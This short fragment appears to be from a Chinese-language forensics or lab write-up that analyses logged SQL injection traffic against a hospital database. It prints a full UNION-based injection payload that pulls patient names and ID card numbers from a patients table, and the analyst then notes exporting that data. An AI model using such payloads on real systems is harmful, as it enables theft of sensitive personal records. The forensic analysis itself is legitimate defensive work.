 ```
zhangsan%' UNION ALL SELECT CONCAT(0x7170787071,JSON_ARRAYAGG(CONCAT_WS(0x6f6f6b787571,IFNULL(CAST(`name` AS NCHAR),0x20),IFNULL(CAST(id_card AS NCHAR),0x20))),0x716a766271),NULL,NULL,NULL,NULL FROM hospital_db.patients#
```

该ip在进行sql注入，对patients进行操作

查看该表

![image-20250514134200632](./assets/image-20250514134200632.png)

是患者的信息

导出该信息
